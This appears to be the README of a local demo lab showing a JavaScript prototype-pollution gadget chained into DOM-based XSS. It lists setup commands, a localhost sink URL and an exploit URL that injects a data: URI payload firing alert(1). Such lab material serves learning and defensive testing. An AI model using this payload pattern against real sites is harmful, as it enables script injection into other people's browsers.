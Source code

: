 # JavaScript Prototype Pollution → DOM XSS chain
set up: `node install`  
run: `node server.js`  
visit home: `http://localhost:3000/`  
Prototype pollution sink: `http://localhost:3000/?analytics_url=url`  
exploit:  `http://localhost:3000/?analytics_url=data:,alert(1);`

### Exploit the gadget with an alert:  
![alt text](exploit.png)  

#### Prototype pollution sink:  
![alt text](sink.png)